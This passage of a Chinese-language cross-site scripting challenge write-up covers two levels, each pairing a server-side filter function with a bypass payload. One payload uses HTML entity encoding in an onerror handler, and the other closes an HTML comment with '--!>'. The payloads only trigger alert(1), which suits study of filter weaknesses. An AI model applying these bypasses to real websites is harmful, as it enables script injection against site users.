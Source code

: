 Js支持的编码格式：

- Unicode形式：`\uH`(十六进制)。

- 普通16进制：`\xH`。

- 纯转义：`\'`、`\"`、`\<`、`\>`这样在特殊字符之前加`\`进行转义。

```html
//input code
<img src=x onerror="alert&#x28;1&#x29;">
//html
<img src=x onerror="alert&#x28;1&#x29;">
```

## 0x04 

- server code

```js
function render (input) {
  const stripBracketsRe = /[()`]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```

- solution

在上道题目的基础上对**`**进行了过滤，进制编码即可绕过。

```html
//input code
<img src=x onerror="alert&#x28;1&#x29;">
//html
<img src=x onerror="alert&#x28;1&#x29;">
```

## 0x05

- server code

```js
function render (input) {
  input = input.replace(/-->/g, ':)')
  return '<!-- ' + input + ' -->'
}
```

- solution

匹配`-->`替换为`:)`，可以使用`--!>`闭合注释进行绕过。

```html
//input code
--!><script>alert(1);</script>
//html
!-- --!><script>alert(1);</script> -->
```
